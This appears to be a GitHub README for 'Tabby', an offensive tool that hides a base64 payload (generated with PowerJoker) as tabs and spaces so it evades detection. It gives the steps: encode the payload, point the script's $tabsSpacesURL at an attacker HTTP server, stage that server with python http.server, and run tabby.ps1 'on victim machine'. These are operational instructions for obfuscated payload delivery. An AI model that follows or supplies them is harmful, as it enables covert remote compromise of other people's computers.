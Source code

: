 <img src="https://github.com/Kryp7os/Tabby/assets/98974230/a2e9a43a-452d-4e61-b730-5968c0ddd767" width="300" />

# Tabby

Tool that converts a payload into tabs and spaces and executes

## Usage

<img src="https://github.com/Kryp7os/Tabby/assets/98974230/ff0b48e4-1a9c-46bf-a085-08b3bf879b70" width="800" />

### Generate the Payload:
1. Launch PowerJoker(https://github.com/Adkali/PowerJoker) and copy the base64 output.

2. Launch tabme.py using:
`python3 tabme.py`

### Preparing the Payload
1. Paste the base64 encoding in `tabme.py`

2. Specify the outfile i.e `tabby.txt`

#### Tabby's Payload Preview

<img src="https://github.com/Kryp7os/Tabby/assets/98974230/ae5563b0-20c8-4ea3-b06a-fb0205323187" width="600" />

4. Add your http server to the powershell script:
`$tabsSpacesURL = "http://192.168.x.x/tabby.txt"`

### Stage your Http server
`python3 -m http.server 80`

### Execute ps1 file on victim machine

`.\tabby.ps1`

